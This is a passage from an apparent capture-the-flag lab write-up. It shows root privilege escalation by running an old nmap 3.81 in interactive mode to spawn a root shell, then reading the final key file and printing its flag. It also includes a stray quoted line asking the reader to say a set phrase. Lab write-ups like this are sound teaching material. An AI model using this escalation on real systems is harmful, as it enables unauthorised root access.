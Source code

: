 We can see that __nmap__ is installed on the target system. Let's check the nmap version.

```console
robot@linux:/$ /usr/local/bin/nmap --version
/usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

This is an old version of nmap, which supports an option called "interactive".

```console
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! id
! id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> ! whoami
! whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# cd /root
cd /root
# ls -la
ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
```

## Flag 3:
```console
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
> Please say that "You are seeing it too!".

### Woo-hoo!! We did it.

### Thank You! for learning with me. Keep Moving!!!